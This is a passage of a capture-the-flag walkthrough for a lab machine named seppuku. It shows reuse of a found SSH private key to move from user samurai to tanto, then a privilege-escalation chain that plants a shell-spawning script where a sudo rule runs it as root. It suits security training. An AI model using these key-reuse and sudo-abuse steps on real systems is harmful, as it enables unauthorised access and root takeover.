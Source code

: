 # Lateral move (samurai -> tanto)

Remember that we have found previously a SSH private key. We can actually use it to switch to `tanto`:

~~~
samurai@seppuku:~$ cp /var/www/html/keys/private .
samurai@seppuku:~$ chmod 400 private 
samurai@seppuku:~$ ssh -i private tanto@localhost
The authenticity of host 'localhost (::1)' can't be established.
ECDSA key fingerprint is SHA256:RltTwzbYqqcBz4/ww5KEokNttE+fZwM7l4bvzFaf558.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added 'localhost' (ECDSA) to the list of known hosts.
Linux seppuku 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2 (2020-04-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed May 13 10:53:17 2020 from 192.168.1.48
tanto@seppuku:~$ 
~~~

# Privilege escalation

## Chain

Now putting everything together, here is what we have:

User | Action
---|---
seppuku | Can create a symbolic link of `/root` to `/tmp`
samurai | Can execute `/home/tanto/.cgi_bin/bin /tmp/*` as `root`
tanto | Can create the `~/.cgi_bin/bin` script 

As we can put whatever we want in the script, we'll just spawn a root shell. Let's create the script. As `tanto`, issue the following commands:

~~~
$ mkdir /home/tanto/.cgi_bin/
$ cd /home/tanto/.cgi_bin/
$ cat > bin << EOF
#!/bin/sh
/bin/bash
EOF
$ chmod +x bin
$ exit
$ exit
~~~

